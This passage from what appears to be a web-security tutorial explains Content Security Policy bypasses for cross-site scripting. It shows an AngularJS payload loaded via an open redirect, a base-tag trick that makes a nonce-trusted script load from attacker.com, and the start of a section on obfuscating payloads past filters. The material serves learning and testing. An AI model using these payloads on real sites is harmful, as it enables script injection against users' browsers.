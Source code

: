 <pre class="language-html" data-overflow="wrap"><code class="lang-html"><strong>&#x3C;script src="/redirect?url=https%3A%2F%2Fcdnjs.cloudflare.com%2Fajax%2Flibs%2Fangular.js%2F1.8.3%2Fangular.min.js">&#x3C;/script>
</strong>&#x3C;div ng-app>&#x3C;img src=x ng-on-error="$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.defaultView.origin)">&#x3C;/div>
</code></pre>

#### Nonce without base-src

If a CSP filters scripts based on a **nonce**, and does not specify a `base-src` directive, you may be able to hijack relative URLs after your injection point.

{% code overflow="wrap" %}
```http
Content-Security-Policy: script-src 'nonce-abc'
```
{% endcode %}

Let's say the target page with an HTML-injection looks as follows:

<pre class="language-html"><code class="lang-html">&#x3C;body>
  INJECT_HERE
<strong>  &#x3C;script nonce="abc" src="/script.js">
</strong>&#x3C;/body>
</code></pre>

The relative `<script>` tag can be redirect to another domain using the `<base>` tag as follows:

<pre class="language-html"><code class="lang-html">&#x3C;body>
<strong>  &#x3C;base href="https://attacker.com">
</strong>  &#x3C;script nonce="abc" src="/script.js">
&#x3C;/body>
</code></pre>

Now, the script with a valid nonce is loaded from `https://attacker.com/script.js` instead of the target website!

### Filter Bypasses

Some of the most useful and common filter bypasses are shown in [#common-filter-bypasses](cross-site-scripting-xss.md#common-filter-bypasses "mention").

If a server is checking your input for suspicious strings, they will have a hard time as there are many ways to obfuscate your payloads. Even a simple `<a href=...>` tag has many places where the browser allows special and unexpected characters, which may break the pattern the server is trying to search for. Here is a clear diagram showing _where_ you can insert _what_ characters:
